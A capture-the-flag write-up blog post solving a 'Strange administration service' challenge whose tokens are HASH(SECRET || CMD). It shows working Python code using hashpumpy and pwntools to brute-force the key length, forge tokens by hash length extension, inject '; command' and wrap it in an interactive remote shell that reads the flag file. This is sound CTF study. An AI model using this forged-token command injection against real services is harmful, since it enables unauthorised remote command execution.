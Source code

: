 ```yaml
---
title: "Writeup Cyber Threat Force : Strange administration service"
date: 2021-07-10T15:55:09+01:00
draft: false
tags: ["blog", "security", "ctf", "cyber-threat-force", "crypto"]
type: "posts"
showDate: true
---
```


For this challenge, we were given access to a server which we can connect to:

```bash
$ nc 144.217.73.235 27099

give me cmd|token
example: 
ls|c9af5ac08978481063b711f031f38518a7c2d83d6db3eabacbd7726470e8a140
id|69a4061766769d0a19ab59e6f905f7ac5875691b62765cb6b3b5ee6ae08f776a

ls|c9af5ac08978481063b711f031f38518a7c2d83d6db3eabacbd7726470e8a140
chall.py
wrapper

$ nc 144.217.73.235 27099

give me cmd|token
example: 
ls|c9af5ac08978481063b711f031f38518a7c2d83d6db3eabacbd7726470e8a140
id|69a4061766769d0a19ab59e6f905f7ac5875691b62765cb6b3b5ee6ae08f776a

whoami|c9af5ac08978481063b711f031f38518a7c2d83d6db3eabacbd7726470e8a140
Bad Token
```

It executes the command we give it, given that we know the corresponding hash. The challenge description told us that the hash format is `HASH(SECRET || CMD)`.

This should instantly make us think of [hash key length extension attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks). I've written about this previously, for the [DG'hAck StickItUp challenge](/blog/writeup-dghack-stickitup/).

This attack allows us to append arbitrary data at the end of an hashed value, while keeping the hash valid. Here, we can append ` ; my_command` to the existing command to execute what we want.

We'll use the same tool: [hashpump](https://github.com/bwall/HashPump). First, we have to figure out the key length. The service returned `Bad Token` when we tried to pass the `ls` hash for the `whoami` command, so let's use that.

```python
# To remove warnings from hashpumpy ; https://stackoverflow.com/a/879249/6262617
import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning) 

import hashpumpy
from pwn import *

# To remove remote(...) logs
context.log_level = 'ERROR'

ID_HASH = '69a4061766769d0a19ab59e6f905f7ac5875691b62765cb6b3b5ee6ae08f776a'

def get_output(token, command):
    r = remote('144.217.73.235', 27099)
    r.recvuntil(ID_HASH + '\n')
    r.sendline(command + b'|' + token.encode())
    data = r.recvall()
    if b'Bad Token' in data:
        return None
    return data

for key_len in range(100):
    # Could also have used the `ls` hash.
    token, command = hashpumpy.hashpump(ID_HASH, 'id', ' ; echo 1', key_len)
    output = get_output(token, command)

    if output:
        print(key_len, 'OK', output)
        break
    else:
        print(key_len, 'FAIL')
```

```bash
$ python fuzz.py 
0 FAIL
1 FAIL
2 FAIL
3 FAIL
4 FAIL
5 FAIL
6 FAIL
7 FAIL
8 FAIL
9 FAIL
10 FAIL
11 FAIL
12 FAIL
13 FAIL
14 FAIL
15 FAIL
16 FAIL
17 FAIL
18 FAIL
19 FAIL
20 FAIL
21 FAIL
22 OK b'\nuid=1000(ctf) gid=1000(ctf) groups=1000(ctf)\n1\n'
```

As we can see, we successfully injected our `echo 1` command. We get its output right after the output of the `id` command.

We can now build ourselves a simple shell:

```python
# To remove pesky warnings ; https://stackoverflow.com/a/879249/6262617
import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning) 

import hashpumpy
from pwn import *

# To remove remote(...) logs
context.log_level = 'ERROR'

ID_HASH = '69a4061766769d0a19ab59e6f905f7ac5875691b62765cb6b3b5ee6ae08f776a'
KEY_LEN = 22

def get_output(token, command):
    r = remote('144.217.73.235', 27099)
    r.recvuntil(ID_HASH + '\n')
    r.sendline(command + b'|' + token.encode())
    data = r.recvall()
    if b'Bad Token' in data:
        return None
    return data

def inject_command(command):
    injected_command = f'; {command}'
    token, command = hashpumpy.hashpump(ID_HASH, 'id', injected_command, KEY_LEN)
    output = get_output(token, command)
    output = output.decode().strip()
    # Remove original 'id' output
    output = '\n'.join(output.split('\n')[1:])
    return output

while True:
    try:
        cmd = input('$ ').strip()
    except:
        break

    if not cmd:
        break

    print(inject_command(cmd))
```

```bash
$ python demo.py
$ whoami
ctf
$ cat /home/ctf/flag.txt
CYBERTF{HM@C_Custom_Is_Bad_Idea}
```

Here we go, the flag is `CYBERTF{HM@C_Custom_Is_Bad_Idea}`.

You can [view the sources on github](https://github.com/vivescere/ctf/tree/main/cyber-threat-force-2021/crypto/strange-administration-service) or [read other writeups](/blog/cyber-threat-force-ctf/).
